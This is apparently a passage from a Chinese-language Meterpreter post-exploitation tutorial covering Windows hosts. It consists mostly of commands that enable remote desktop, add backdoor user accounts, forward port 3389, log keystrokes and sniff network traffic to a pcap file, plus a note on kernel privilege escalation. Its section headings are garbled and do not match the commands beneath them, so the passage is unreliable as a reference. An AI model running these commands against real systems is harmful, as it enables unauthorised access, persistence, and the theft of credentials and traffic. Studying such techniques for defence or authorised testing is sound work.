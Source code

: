 [![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8e75a848-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8e75a848-998c-1.png)

3) 内核漏洞提权

可先利用 enum_patches 模块 收集补丁信息，然后查找可用的 exploits 进行提权

```
run getgui –h #查看帮助
run getgui -e #开启远程桌面
run getgui -u lltest2 -p 123456   #添加用户
run getgui -f 6661 –e   #3389端口转发到6661
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232240-8e85924e-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232240-8e85924e-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232240-8e9b89e6-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232240-8e9b89e6-998c-1.png)

### 0x06.mimikatz 抓取密码

```
run post/windows/manage/enable_rdp  #开启远程桌面
run post/windows/manage/enable_rdp USERNAME=www2 PASSWORD=123456 #添加用户
run post/windows/manage/enable_rdp FORWARD=true LPORT=6662  #将3389端口转发到6662
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232240-8eac2e2c-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232240-8eac2e2c-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232240-8ebb6bc6-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232240-8ebb6bc6-998c-1.png)

### 0x07. 远程桌面 & 截屏

```
keyscan_start  #开始键盘记录
keyscan_dump   #导出记录数据
keyscan_stop #结束键盘记录
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232240-8ee6331a-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232240-8ee6331a-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f1a70c6-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f1a70c6-998c-1.png)

### 0x08. 开启 rdp & 添加用户

1)getgui 命令

```
use sniffer
sniffer_interfaces   #查看网卡
sniffer_start 2   #选择网卡 开始抓包
sniffer_stats 2   #查看状态
sniffer_dump 2 /tmp/lltest.pcap  #导出pcap数据包
sniffer_stop 2   #停止抓包
```
